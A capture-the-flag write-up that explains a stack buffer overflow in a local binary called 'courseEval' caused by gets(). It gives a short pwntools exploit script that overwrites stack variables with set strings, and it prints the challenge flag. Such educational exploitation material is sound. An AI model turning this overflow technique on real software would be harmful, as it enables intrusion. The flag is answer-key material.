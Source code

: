 # 🔑 Write-Up

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 50 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

context.binary = "./courseEval"
p = process()
p.sendline(b"A" * 56 + b"UniPD_01" + b"CPP-" + b"PWN-" + b"Pier")

log.success(p.recvline_regex(rb"SPRITZ{.*}").decode("ascii"))
```

### 🚩 Flag 

```plain
SPRITZ{CPP_PWNs_Everything_173453}
```
